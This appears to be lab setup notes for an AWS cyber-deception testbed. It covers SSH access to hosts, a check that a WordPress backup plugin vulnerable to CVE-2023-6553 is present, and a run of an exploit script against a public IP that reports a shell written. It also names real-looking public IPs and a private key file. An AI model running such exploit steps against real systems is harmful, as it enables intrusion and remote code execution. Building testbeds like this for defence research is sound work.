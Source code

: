 - get controller IP
```
aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=Controller" \
  --query "Reservations[].Instances[].PublicIpAddress" \
  --output text
```

- get internal IPs
```
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[*].PrivateIpAddress' \
  --output text
```

- ssh into controller
```
chmod 400 RL4Deception.pem
ssh -i Network_tf/RL4Deception.pem ubuntu@3.148.118.121
```

- copy files from local to the controller, e.g., hosts.txt
```
scp -i Network_tf/RL4Deception.pem hosts.txt ubuntu@3.148.118.121:/home/ubuntu/
```

- verify SSH connectivity to all hosts
```
./checkSSH.sh 
```

```
📡 Verifying SSH connectivity to all hosts as 'ubuntu'...

IP Address      Status    
----------      ------    
10.0.1.204      ✅
10.0.2.87       ✅
10.0.2.226      ✅
10.0.3.151      ✅
10.0.3.65       ✅
10.0.3.136      ✅
10.0.3.67       ✅
```

- verify the existence of CVE-2023-6553 on PublicWeb1

```
ssh -i ~/RL4Deception.pem ubuntu@10.0.1.204
ls -l /var/www/html/wp-content/plugins/
grep -i version /var/www/html/wp-content/plugins/backup-backup/backup-backup.php
```

```
   *     Version: 1.3.7
  if (!defined('BMI_VERSION')) {
    define('BMI_VERSION', '1.3.7');
```

- exploit the backup vulnerability at PublicWeb1

```
cd Attacker/CVE-2023-6553/
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
python exploit.py -u http://3.144.10.220
```

```
(venv) yinuodu@S3Ds-MacBook-Pro-10 CVE-2023-6553 % python exploit.py -u http://3.144.10.220      

http://3.144.10.220 is vulnerable to CVE-2023-6553
Initiating shell deployment. This may take a moment...
Writing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Shell written successfully.
# 
```